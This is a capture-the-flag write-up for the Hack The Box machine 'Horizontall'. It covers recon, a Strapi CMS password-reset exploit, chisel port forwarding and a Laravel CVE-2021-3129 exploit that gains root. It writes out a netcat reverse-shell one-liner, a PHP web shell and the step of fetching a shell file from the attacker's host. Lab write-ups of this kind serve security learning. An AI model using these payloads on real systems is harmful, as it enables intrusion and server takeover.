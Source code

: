 ```yaml
---
layout: default
title : muzec - Horizontall HTB Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/148056566-bbff1385-857b-4625-8ab1-6a2af94f624c.png)

We always start with an nmap scan.....

```
nmap -p- --min-rate 10000 -oA nmap/allports -v IP
```

```
# Nmap 7.91 scan initiated Thu Dec 30 08:30:37 2021 as: nmap -p- --min-rate 10000 -oA nmap/allports -v 10.10.11.105
Warning: 10.10.11.105 giving up on port because retransmission cap hit (10).
Increasing send delay for 10.10.11.105 from 320 to 640 due to 570 out of 1899 dropped probes since last increase.
Increasing send delay for 10.10.11.105 from 640 to 1000 due to 1398 out of 4658 dropped probes since last increase.
Nmap scan report for 10.10.11.105
Host is up (0.24s latency).
Not shown: 52107 closed ports, 13426 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
# Nmap done at Thu Dec 30 08:31:48 2021 -- 1 IP address (1 host up) scanned in 70.64 seconds
```

Interesting two open ports let throw some service detection and scripts switch on it to confirm wwhat we have running on it we can already see it `SSH and HTTP` but let keep it flashy lol.


```
nmap -sC -sV -oA nmap/normal -p 22,80 IP
```

```
# Nmap 7.91 scan initiated Thu Dec 30 08:32:40 2021 as: nmap -sC -sV -oA nmap/normal -p 22,80 10.10.11.105
Nmap scan report for horizontall.htb (10.10.11.105)
Host is up (0.35s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: horizontall
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 30 08:32:58 2021 -- 1 IP address (1 host up) scanned in 18.10 seconds
```

Now that is more flashy we are checking the `HTTP` first make sure to add `IP` and `horizontall.htb` to your host file. 

![image](https://user-images.githubusercontent.com/69868171/148058010-51883f76-4001-4249-8ff8-5b81caaeadb8.png)

Now next thing to do is to check the source page but we got nothing let burst some directories and subdomain to find some hidden page.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.105]                                                                                                              
└─$ gobuster dir -u http://horizontall.htb/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php,html,bak,sh -o gobuster.req
/index.html           (Status: 200) [Size: 901]
/img                  (Status: 301) [Size: 194] [--> http://horizontall.htb/img/]
/css                  (Status: 301) [Size: 194] [--> http://horizontall.htb/css/]
/js                   (Status: 301) [Size: 194] [--> http://horizontall.htb/js/]
```

But i got nothing on the domain let check subdomain.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.105]
└─$ gobuster vhost -u http://horizontall.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt  
Found: api-prod.horizontall.htb (Status: 200) [Size: 413]
```

Boom we got a subdomain which is cool add again to our host file now let access it to see what in store for us.

![image](https://user-images.githubusercontent.com/69868171/148062275-4fb13163-e6d1-4efc-8fbc-1dd8d154b02d.png)

We got a welcome message and the rest is blank so i try adding `/admin` and the back of the subdomain you can also burst directories you will get it i just guess it and boom it work.

![image](https://user-images.githubusercontent.com/69868171/148062675-e9ac9161-42c1-46fa-893c-44a25d29fc5c.png)

Seems we are dealing with `strapi cms` using some default credentials and we got no luck let see wwhat we can find on google.

```
http://api-prod.horizontall.htb/admin/strapiVersion
```

![image](https://user-images.githubusercontent.com/69868171/148063058-83731e9c-e26b-42a0-a275-8d7dff3a6a5d.png)

We found the version let confirm if the version is vulnerable.

![image](https://user-images.githubusercontent.com/69868171/148063158-3b9f1297-0025-438b-82e4-63185c98da86.png)

Boom let download the exploit to try it out.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.105]
└─$ python3 50239.py http://api-prod.horizontall.htb/
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQxMzAxNDYxLCJleHAiOjE2NDM4OTM0NjF9.50jv0hWWZ3KBCn-U0EIA2qNHkE7e4ddOrksf0yQuzbI


$> 
```

We are in but when i try to run a command i got some error.

![image](https://user-images.githubusercontent.com/69868171/148063509-0ca789cf-2460-4239-902c-24fb3088a990.png)

Smooth let try to transfer the shell.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

Ncat ready to catch the reverse shell.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.105]
└─$ nc -nvlp 1337 
listening on [any] 1337 ...
```

![image](https://user-images.githubusercontent.com/69868171/148063865-42bb052d-091e-43af-ab79-5c068c273ffa.png)

Boom more better let spawn a full tty shell.

![image](https://user-images.githubusercontent.com/69868171/148064159-1c37afcb-c021-47a0-9400-2910af4c55df.png)

Now let get the `user.txt` first.

![image](https://user-images.githubusercontent.com/69868171/148064371-d5a6ccdf-8b9e-4c78-af23-be84f14e9a9d.png)

Boom now let try to move our privilege.

![image](https://user-images.githubusercontent.com/69868171/148064681-013ed459-8775-447e-8745-780e199c84a3.png)

Found a credentials but when i try to use it for the user `developer` i got no luck so let check for `SUID` .

![image](https://user-images.githubusercontent.com/69868171/148064882-ee502a39-1232-45d7-a933-3c47ae9e8fb6.png)

Nothing also let check what ports we have running locally with us.

```
ss -tulpn
```

![image](https://user-images.githubusercontent.com/69868171/148064999-3cb0bfda-e916-4888-8359-c9e7fd9a98f9.png)

Boom we have a port let try to port forward using `chisel` first of all we need to transfer a copy of `chisel` binary to the target.

![image](https://user-images.githubusercontent.com/69868171/148065402-e6d6b3b0-913e-4d0c-b011-6331017f362c.png)

Now let start the server on our attacking machine.

```
./chisel server -p 9000 --reverse &
```

![image](https://user-images.githubusercontent.com/69868171/148065782-0450945b-8aea-4f23-93ca-a7aec4ccd2fb.png)


Now on the target.

```
./chisel client 10.10.14.7:9000 R:9001:127.0.0.1:8000 &
```

![image](https://user-images.githubusercontent.com/69868171/148065987-7ddf2b02-0bf1-4f37-9ac2-006da12b9c52.png)

We are ready to access it now.

```
127.0.0.1:9001
```

![image](https://user-images.githubusercontent.com/69868171/148066115-698d5f6f-0194-43f2-a839-483ee9475c42.png)

Boom we found a Laravel v8 (PHP v7.4.18) version seems cool let confirm if it vulnerable.

![image](https://user-images.githubusercontent.com/69868171/148066426-3fe2f56c-2852-4811-93c0-ac968121204c.png)

Boom jackpot let give it a shot.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.105/CVE-2021-3129]
└─$ python3 exploit.py
[*] Try to use monolog_rce1 for exploitation.
[*] Result:
uid=0(root) gid=0(root) groups=0(root)

[*] Try to use monolog_rce2 for exploitation.
[*] Result:
uid=0(root) gid=0(root) groups=0(root)

[*] Try to use monolog_rce3 for exploitation.
[*] Result:
[-] RCE echo is not found.
```

Exploit working now let try to get a reverse shell let edit the exploit to wget our shell file to the server.

```
//Save in shell.php//

<?php system ($_GET['cmd']); ?>
```

Now let start our python server.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.105]
└─$ python -m SimpleHTTPServer                       
Serving HTTP on 0.0.0.0 port 8000 ...
```

![image](https://user-images.githubusercontent.com/69868171/148067410-2d46be44-92c9-41a2-a383-28f654bdba68.png)

Now let save and run the exploit again.

![image](https://user-images.githubusercontent.com/69868171/148067535-3b5b5bc1-2b61-4957-a7d8-bb270bf61766.png)

Which confirm our file has been transfered let confirm it.

![image](https://user-images.githubusercontent.com/69868171/148067657-f631d551-3c39-427b-8c78-7f3812532dbc.png)

Flashy right hehehehehe let get a reverse shell back to our terminal now.

![image](https://user-images.githubusercontent.com/69868171/148067929-c79d26d1-0645-4082-a0af-00ab9a96f7bf.png)

Bruhhhhhhhh you just got yourself a root you are l33t and thanks for reading my writeup between peace out.


Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
